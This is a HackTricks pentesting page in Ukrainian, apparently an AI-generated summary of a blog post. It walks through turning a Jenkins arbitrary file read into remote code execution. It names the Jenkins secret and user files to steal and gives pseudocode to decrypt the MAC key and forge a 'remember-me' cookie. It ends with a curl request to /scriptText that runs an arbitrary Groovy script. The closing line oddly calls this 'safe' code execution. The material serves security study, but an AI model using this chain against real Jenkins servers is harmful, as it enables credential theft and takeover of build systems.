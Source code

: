 # Jenkins Arbitrary File Read to RCE via "Remember Me"

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

У цьому блозі можна знайти чудовий спосіб перетворити вразливість Local File Inclusion у Jenkins на RCE: [https://blog.securelayer7.net/spring-cloud-skipper-vulnerability/](https://blog.securelayer7.net/spring-cloud-skipper-vulnerability/)

Це підсумок, створений штучним інтелектом, частини посту, де зловживання створенням довільного cookie використовується для отримання RCE, зловживаючи читанням локальних файлів, поки у мене є час створити підсумок самостійно:

### Attack Prerequisites

* **Feature Requirement:** "Remember me" має бути увімкнено (налаштування за замовчуванням).
* **Access Levels:** Зловмисник потребує загальних/читальних дозволів.
* **Secret Access:** Можливість читати як бінарний, так і текстовий вміст з ключових файлів.

### Detailed Exploitation Process

#### Step 1: Data Collection

**User Information Retrieval**

* Отримати конфігурацію користувача та секрети з `$JENKINS_HOME/users/*.xml` для кожного користувача, щоб зібрати:
* **Username**
* **User seed**
* **Timestamp**
* **Password hash**

**Secret Key Extraction**

* Витягти криптографічні ключі, що використовуються для підписування cookie:
* **Secret Key:** `$JENKINS_HOME/secret.key`
* **Master Key:** `$JENKINS_HOME/secrets/master.key`
* **MAC Key File:** `$JENKINS_HOME/secrets/org.springframework.security.web.authentication.rememberme.TokenBasedRememberMeServices.mac`

#### Step 2: Cookie Forging

**Token Preparation**

*   **Calculate Token Expiry Time:**

{% code overflow="wrap" %}
```javascript
tokenExpiryTime = currentServerTimeInMillis() + 3600000  // Додає одну годину до поточного часу
```
{% endcode %}
*   **Concatenate Data for Token:**

{% code overflow="wrap" %}
```javascript
token = username + ":" + tokenExpiryTime + ":" + userSeed + ":" + secretKey
```
{% endcode %}

**MAC Key Decryption**

*   **Decrypt MAC Key File:**

```javascript
key = toAes128Key(masterKey)  // Перетворити головний ключ у формат ключа AES128
decrypted = AES.decrypt(macFile, key)  // Розшифрувати .mac файл
if not decrypted.hasSuffix("::::MAGIC::::")
return ERROR;
macKey = decrypted.withoutSuffix("::::MAGIC::::")
```

**Signature Computation**

*   **Compute HMAC SHA256:**

```javascript
mac = HmacSHA256(token, macKey)  // Обчислити HMAC, використовуючи токен і MAC ключ
tokenSignature = bytesToHexString(mac)  // Перетворити MAC у шістнадцятковий рядок
```

**Cookie Encoding**

*   **Generate Final Cookie:**

{% code overflow="wrap" %}
```javascript
cookie = base64.encode(username + ":" + tokenExpiryTime + ":" + tokenSignature)  // Base64 кодувати дані cookie
```
{% endcode %}

#### Step 3: Code Execution

**Session Authentication**

* **Fetch CSRF and Session Tokens:**
* Зробити запит до `/crumbIssuer/api/json`, щоб отримати `Jenkins-Crumb`.
* Захопити `JSESSIONID` з відповіді, який буде використано разом з cookie "remember-me".

**Command Execution Request**

*   **Send a POST Request with Groovy Script:**

```bash
curl -X POST "$JENKINS_URL/scriptText" \
--cookie "remember-me=$REMEMBER_ME_COOKIE; JSESSIONID...=$JSESSIONID" \
--header "Jenkins-Crumb: $CRUMB" \
--header "Content-Type: application/x-www-form-urlencoded" \
--data-urlencode "script=$SCRIPT"
```

* Groovy скрипт може бути використаний для виконання системних команд або інших операцій у середовищі Jenkins.

Приклад команди curl демонструє, як зробити запит до Jenkins з необхідними заголовками та cookie для безпечного виконання довільного коду.

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

